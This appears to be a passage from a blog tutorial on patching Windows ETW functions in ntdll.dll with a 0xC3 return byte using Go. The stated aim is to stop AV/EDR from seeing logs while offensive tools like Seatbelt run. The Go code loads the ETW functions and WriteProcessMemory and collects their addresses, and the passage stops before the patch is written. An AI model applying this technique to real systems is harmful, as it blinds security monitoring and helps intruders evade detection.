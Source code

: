 
ETW functions use `NtTraceEvent` so we could force it to return. The patch itself is a simply return (ret) and its value is `0xc3` (x64)

Imagine we are trying to execute a Seatbelt.exe .NET assembly but it is creating a lot of logs on the system, so the AV/EDR consumes them and we are getting detected due to it. If we apply the patch on most of ETW functions, those logs wouldn't be created so the AV/EDR wouldn't detect us.

Let's see how we can implement it in Golang.

# Code

I've seen in other places that people use `0x48, 0x33, 0xC0, 0xC3` to patch ETW but we'll just use `0xC3`, both of them should work.

Let's start by importing neccessary packages:

```go
package main

import (
  "fmt"
  "time"
  "unsafe"
  "syscall"
)
```

We import `time` since we'll sleep before the program exits so we can attach to process using ***WinDbg***. Then we load `ntdll.dll` and most ETW functions.

```go
  fmt.Println("[*] Loading ntdll.dll and ETW functions...")
  ntdll := syscall.NewLazyDLL("ntdll.dll")
  WriteProcessMemory := syscall.NewLazyDLL("kernel32.dll").NewProc("WriteProcessMemory")

  EtwEventWrite := ntdll.NewProc("EtwEventWrite")
  EtwEventWriteEx := ntdll.NewProc("EtwEventWriteEx")
  EtwEventWriteFull := ntdll.NewProc("EtwEventWriteFull")
  EtwEventWriteString := ntdll.NewProc("EtwEventWriteString")
  EtwEventWriteTransfer := ntdll.NewProc("EtwEventWriteTransfer")

  ...
}
```

Anyway we haven't obtained functions addresses so let's do it.

```go
addresses := []uintptr{
  EtwEventWriteFull.Addr(),
  EtwEventWrite.Addr(),
  EtwEventWriteEx.Addr(),
  EtwEventWriteString.Addr(),
  EtwEventWriteTransfer.Addr(),
}
```
